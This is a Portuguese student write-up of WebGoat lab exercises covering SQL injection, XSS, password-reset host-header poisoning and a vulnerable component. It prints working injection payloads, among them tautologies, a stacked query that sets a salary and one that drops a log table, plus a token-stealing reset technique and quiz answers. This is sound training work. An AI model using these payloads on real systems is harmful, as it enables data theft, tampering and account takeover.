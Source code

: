 ## Pergunta 1.1 - SQL Injection ##
### 2) ###
Retornar o departamento do empregado Bob Franco. 

    SELECT department FROM Employees WHERE first_name='Bob' AND last_name='Franco'

![1.2](./imagens/1.2.png)  


### 3) ###
Alterar o departamento do empregado Tobi Barnett para 'Sales'.

    UPDATE Employees SET department='Sales' WHERE first_name='Tobi' AND last_name='Barnett'
    
![1.3](./imagens/1.3.png)


### 4) ###
Adicionar a coluna "phone" na tabela "employees"

    ALTER TABLE Employees ADD phone varchar(20)
    
![1.4](./imagens/1.4.png)


### 5) ###
Conceder a um grupo de utilizadores o direito de alterar tabelas

    GRANT ALTER TABLE TO 'UnauthorizedUser'
    
![1.5](./imagens/1.5.png)


### 9) ###
Obter todos os utilizadores da tabela onde os campos foram preenchidos por:
+ Smith'
+ or
+ '1'='1

A query final otida foi:

    SELECT * FROM user_data WHERE first_name="John" and last_name='Smith' or '1'='1'
    
![1.9](./imagens/1.9.png)


### 10) ###
O objetivo desta alínea passava por retornar todos os dados da tabela 'users'. Assim, após descobrimos que o campo User_Id era suscetível a SQL Injection, preenchemos os campos da seguinte forma:
+ **Login_Count**: 1
+ **User_Id**: 1 or 1=1

Obtendo assim:

    SELECT * FROM user_data WHERE Login_Count=1 and userid=1 or 1=1
    
![1.10](./imagens/1.10.png)


### 11) ###
Neste ponto era pretendido obter todos os dados da tabela 'employees', sabendo que a query era: 
    
    SELECT * FROM employees WHERE last_name='" + name + "' AND auth_tan= '" + auth_tan + ""
   
Assim, os campos foram completados com: 
+ **Employee Name**: Smith
+ **Authentication TAN**: 3SL99A' or '1'='1';--

![1.11](./imagens/1.11.png)


### 12) ###
Após sabermos o formato da tabela 'employees' devido à alínea anterior bastava-nos alterar o input pretendido num dos campos criando uma nova query e delimintando-as com ';'

Posto isto, os campos forma preenchidos da seguinte forma:
+ **Employee Name**: Smith
+ **Authentication TAN**: 3SL99A'; UPDATE SET salary=9999999 where last_name='Smith

![1.12](./imagens/1.12.png)


### 13) ###
Para apagar os registos feitos pelo utilizador o input foi completado da seguinte forma: 
    
    Smith'; DROP TABLE access_log;--
    
Assim, a query anterior foi separada da nova utilizando novamente ";"

![1.13](./imagens/1.13.png)



## Pergunta 2.1 - XSS ##

### 2) ###

Após testarmos o comando na barra de endereços chegámos à conclusão qe a informação apresentada em ambas as páginas era a mesma.

![2.2](./imagens/2.2.png)


### 7) ###
Depois de executar alguns testes o campo vulnerável descoberto foi o do cartão de crédito, onde executamos:

    <javascript>alert()</javascript>
    
    
### 10) ###

Primeiramente fomos à fonte do JavaScritp através do atalho de teclado : CTRL + SHIFT + I e procurámos pelo ficheiro GoatRouter.js onde encontrámos todas as rotas inclusive a de teste que tinha sido deixada durante a produção da aplicação.

![2.10.1](./imagens/2.10.1.png)



![2.10.2](./imagens/2.10.2.png)


### 11) ###

Para a realização deste ponto foram abertos a consola e um novo separador com a rota anteriormente encontrada. Nessa rota foi acrescentado o comando: 

    
    /<script>webgoat.customjs.phoneHome()<%2Fscript>
    
De seguida, na consola foi nos apresentado a resposta.
     



### 12) ###

+ **1**: Solution 4
+ **2**: Solution 3
+ **3**: Solution 1
+ **4**: Solution 2
+ **5**: Solution 4



## Pergunta 3.1 - Password Reset ##

### 2) ###

Após seguir as instruções, foi iniciado o WebWolf para aceder ao email e realizar o login, como mostram as figuras abaixo:

![3.2.1](./imagens/3.2.1.png)


![3.2.2](./imagens/3.2.2.png)


### 4) ###

Após várias tentativas as cores encontradas foram:

+ **Admin**: Green
+ **Larry**: Yellow
+ **Tom**: Purple


### 6) ###

A princípio foi necessário realizar um teste com um utilizadors do atacante para entender como funciona o processo de *password changing*. Feito isto, foi constatado que o link enviado ao Webwolf continha um *token* que é passado no endereço. Sendo assim, foi realizado um pedido de mudança de *password* para o email da vítima (tom@webgoat-cloud.org).  
Com o auxílio da ferramenta Burp, interceptamos o *request* feito pela vítima e ao alterar o host para `localhost:9090`, este pedido foi encaminhado para o Webwolf.  
As figuras abaixo ilustram estes passos.
![6.1](./imagens/6.1.png)
![6.2](./imagens/6.2.png)
![6.3](./imagens/6.3.png)

Já no Webwolf, logado como o atacante, recebemos no `Incoming requests` o pedido para alterar a *password* da vítima com o seu respectivo *token*, como mostra a figura abaixo.
![6.4](./imagens/6.4.png)

Em seguida, inserimos o *token* da vítima no endereço de alteração de *password* do WebGoat para chegar à url: `http://localhost:8080/WebGoat/PasswordReset/reset/reset-password/c3b91407-c7c3-4044-8eaa-cc3d98e9792b` e então, finalmente tivemos acesso para alterar a *password* do email da vítima como mostram as figuras a seguir.
![6.5](./imagens/6.5.png)
![6.6](./imagens/6.6.png)

## Pergunta 4.1 - Vulnerable components ##

### 12) ###
Para explorar a vulnerabilidade presente bastou inserir o seguinte excerto de código:

    <java.lang.Integer>1</java.lang.Integer>



  

  
    




